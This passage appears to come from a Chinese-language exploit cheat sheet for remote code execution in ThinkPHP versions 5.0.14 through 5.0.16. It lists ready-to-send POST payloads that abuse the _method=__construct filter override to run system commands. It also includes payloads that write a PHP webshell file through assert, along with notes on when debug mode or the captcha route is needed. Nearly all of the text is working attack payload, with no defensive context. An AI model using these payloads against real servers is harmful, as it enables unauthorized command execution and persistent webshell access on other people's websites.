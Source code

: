 ```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```

5.0.14
默认debug=false，需要开启debug 命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
5.0.15
默认debug=false，需要开启debug 命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
5.0.16
默认debug=false，需要开启debug 命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
5.0.17
